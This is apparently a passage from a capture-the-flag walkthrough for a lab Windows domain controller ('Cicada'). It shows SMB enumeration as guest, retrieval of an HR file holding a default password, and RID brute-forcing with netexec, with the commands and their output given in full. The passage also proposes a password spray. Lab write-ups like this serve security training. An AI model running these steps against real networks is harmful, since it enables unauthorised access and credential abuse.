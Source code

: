 # Foothold
Let's begin our enumeration with SMB mapping using `guest` account.

```
smbmap -u guest -p '' -H $TARGET_IP
```
```
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.126.225:445      Name: 10.129.126.225            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     NO ACCESS
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections  
```

We see that as `guest` have RO access to `HR` share. Further enumeration of this share show that it holds `Notice from HR.txt` file which contains default password for company newjoiners.
```
smbclient -U guest% \\\\$TARGET_IP\\HR -c 'get "Notice from HR.txt"' &&\
grep 'Your default password is:' Notice\ from\ HR.txt
```
```
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

We could use this default password for 'Password Spray Attack' against target users. To enumerate users we will bruteforce RID using `guest` account.

```
netexec smb $TARGET_IP -u guest -p '' --rid-brute 10000 --log rid-brute.txt
```
```
SMB         10.129.78.76    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.78.76    445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.78.76    445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.78.76    445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.78.76    445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
```
